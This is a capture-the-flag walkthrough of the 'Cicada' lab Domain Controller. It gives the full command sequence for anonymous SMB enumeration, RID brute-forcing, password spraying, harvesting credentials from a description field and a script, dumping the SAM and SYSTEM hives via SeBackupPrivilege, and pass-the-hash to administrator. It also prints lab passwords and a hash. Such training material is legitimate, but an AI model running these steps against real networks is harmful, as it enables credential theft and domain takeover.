Cicada is an easy box that starts you off in the Domain Controller. You are allowed to authenticate to the SMB anonymously which will lead you towards finding the default password for users in the network. RID brute is performed so that we can attempt password spraying, finding michael.wrightson in the process. We can use this user to then enumerate users and find david.orelious's password being exposed in the description, leading us to be able to view the DEV smb share to find emily.oscars's credentials. With WinRM using emily's credentials, we are able to abuse her SeBackupPrivilege to dump the SAM and SYSTEM hives to become local Admin on the Domain Controller.


As usual, I'm doing a nmap scan.


```
nmap -sC- sV 10.129.113.12 

PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-01-10 22:04:06Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2026-01-10T22:05:27+00:00; +7h00m01s from scanner time.
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2026-01-10T22:05:26+00:00; +7h00m00s from scanner time.
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2026-01-10T22:05:27+00:00; +7h00m01s from scanner time.
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
|_ssl-date: 2026-01-10T22:05:26+00:00; +7h00m00s from scanner time.
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: CICADA-DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-01-10T22:04:50
|_  start_date: N/A
|_clock-skew: mean: 7h00m00s, deviation: 0s, median: 7h00m00s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

```

Many ports found, but with Kerberos open we can identify this machine as a Domain Controller. 


Anonymous login via SMB
```
nxc smb 10.129.113.12  -u 'Anonymous' -p '' --shares  
```

Able to authenticate via SMB as Guest



```
nxc smb 10.129.113.12  -u 'Anonymous' -p '' --rid-brute
```

Using rid brute to find users in the domain.



Valid users are as below:
```
john.smoulder
sarah.dantelia
michael.wrightson
david.orelious
```

As visible from the guest SMB shares, we can take a look into the HR share

```
smbclient //10.129.113.12/HR -N    
```
There is a txt file that's worth taking a look at.


Looking at the file content, we see that there is a default password Cicada$M6Corpb*@Lp#nZp!8 given. From here we can try to password spray with the users that we found.



```
nxc smb 10.129.113.12 -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8' --continue-on-success
```



Michael is a valid user here. 
```
michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8
```


**Enumerating with Michael User**

Now that we have a valid user, we can do more stuff on the network. 


Checking if I have access to WinRM with Michael
```
nxc winrm 10.129.113.12 -u michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8'   
```

No access.



Usually in lab environments, there might be interesting things to look at given in the user descriptions, like credentials. We can use NXC SMB to give us an easy way to look at it. This will be our next step.
```
nxc smb 10.129.113.12 -u michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8' --users  
```

As visible, david has his password exposed in the description.



We can try the new credentials with David
```
nxc smb 10.129.113.12 -u david.orelious -p 'aRt$Lp#7t*VQ!3' --shares
```


I have added --shares to the command as well. This time we are able to read the DEV share. Let's take a look.
```
smbclient //10.129.113.12/DEV -U 'david.orelious%aRt$Lp#7t*VQ!3'
```

Backup_script.ps1 found





Reading the script, a pair of credentials are yet again exposed. Now we have 
emily.oscars:Q!3@Lp#M6b*7t*Vt

Testing credentials with emily:
```
nxc smb 10.129.113.12 -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt' --shares

nxc winrm 10.129.113.12 -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt'  
```


We can finally login with winRM.


**Enumerating with Emily**

Getting WinRM session of Emily:
```
sudo evil-winrm -i 10.129.113.12 -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'
```




First thing we would want to check in Windows machines first, is the hostname and your privileges. Let's do that.
```
whoami
hostname
whoami /all
```



In this image, what stands out the most is the SeBackupPrivilege. This is a privilege that allows you to query and dump the SAM / SYSTEM hive. With these 2 we are able to get the NTLM local administrator hash.


**Administrator in CICADA-DC**

Creating and Downloading the 2 hives:
```
mkdir Temp
reg save hklm/sam C:\Temp\sam
reg save hklm/system C:\Temp\system
cd Temp
download sam
download system
```



After this, we use impacket-secretsdump to dump the hash locally.
```
sudo impacket-secretsdump -sam sam -system system LOCAL
```



Let's check if we can login to winRM via Pass-The-Hash
```
nxc winrm 10.129.113.12 -u administrator -H '2b87e7c93a3e8a0ea4a581937016f341'
```






We are now local Administrator on the Domain Controller.